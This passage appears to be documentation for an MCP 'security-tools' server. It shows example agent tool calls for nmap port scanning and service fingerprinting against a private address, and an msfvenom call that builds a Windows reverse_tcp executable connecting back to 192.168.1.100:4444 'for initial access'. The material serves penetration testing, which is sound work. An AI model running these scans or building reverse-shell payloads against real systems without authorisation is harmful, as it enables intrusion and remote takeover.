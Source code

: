 #### nmap_port_scan
Scan for open ports with service detection.

```
<use_mcp_tool>
<server_name>security-tools</server_name>
<tool_name>nmap_port_scan</tool_name>
<arguments>
{
  "target": "192.168.1.1",
  "ports": "22,80,443",
  "scanType": "SYN",
  "timing": 3,
  "serviceDetection": true
}
</arguments>
</use_mcp_tool>
```

#### nmap_service_fingerprint
Detailed service version detection.

```
<use_mcp_tool>
<server_name>security-tools</server_name>
<tool_name>nmap_service_fingerprint</tool_name>
<arguments>
{
  "target": "192.168.1.1",
  "ports": "open",
  "intensity": 7
}
</arguments>
</use_mcp_tool>
```

### MSFVenom Tools

#### msfvenom_generate_payload
Create payloads optimized for initial access.

```
<use_mcp_tool>
<server_name>security-tools</server_name>
<tool_name>msfvenom_generate_payload</tool_name>
<arguments>
{
  "payloadType": "reverse_tcp",
  "platform": "windows",
  "format": "exe",
  "ip": "192.168.1.100",
  "port": 4444
}
</arguments>
</use_mcp_tool>
```
